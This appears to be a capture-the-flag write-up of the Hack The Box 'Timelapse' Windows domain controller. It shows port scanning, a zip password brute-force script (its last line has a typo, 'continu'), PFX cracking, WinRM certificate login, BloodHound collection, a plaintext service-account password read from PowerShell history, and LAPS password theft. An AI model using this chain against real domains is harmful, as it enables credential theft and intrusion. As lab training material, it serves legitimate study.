

# x - Time lapse

Nmap scan to discover open ports and service versions.

```c
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE           REASON          VERSION
53/tcp    open  domain            syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec      syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-03-27 06:22:27Z)
135/tcp   open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn       syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?     syn-ack ttl 127
464/tcp   open  kpasswd5?         syn-ack ttl 127
593/tcp   open  ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?          syn-ack ttl 127
3268/tcp  open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl? syn-ack ttl 127
5986/tcp  open  ssl/http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf            syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
64488/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Available shares without user:



In the shares folder there are more two folders that we can inspect.


Getting all the files from the share:


In the shares there is a zipfile called “winrm_backup.zip”, it’s protected with password and we need to perform brute-force to discover the password.

This script was used to perform the brute-force:

```c
import zipfile

f = open("/usr/share/wordlists/rockyou.txt", "rb")

zip = "winrm_backup.zip"
file = zipfile.ZipFile(zip)
	
for password in f:
	try:
		x = file.extractall(pwd=password[:-1])
		print(password)
	except:
		continu
```

The zip password is “supremelegacy”.


Inside the zip there is a certificate.


[https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)

```c
openssl pkcs12 -in [yourfile.pfx] -nocerts -out [drlive.key]
```

With the PXF we also can perform brute-force to discover the certificate password to extract the keys:


```c
thuglegacy
```

After perform the crack of the file, we were able to authenticate in winrm using the certificate.


The sharphound was transferred to server with the main objective of collect data to input in bloodhound.


Getting the loot:

```c
Invoke-Bloodhound -CollectionMethod All -Domain Controller.local -ZipFileName loot.zip
```

Listing powershell command logs:


Reading the file:


```c
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl - 
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

```c
ldapdomaindump 10.10.11.152 -u "timelapse.htb\svc_deploy" -p 'E3R$Q62^12p7PLlC%KWaxuaV' --no-json
metasploit → enumlaps
```

[https://github.com/swisskyrepo/SharpLAPS](https://github.com/swisskyrepo/SharpLAPS)


Using the obtained credentials with crackmapexec more the laps module we could obtain LAPS passwords.


Get the session using the credentials in evil-winrm.


After authentication the root flag was found.

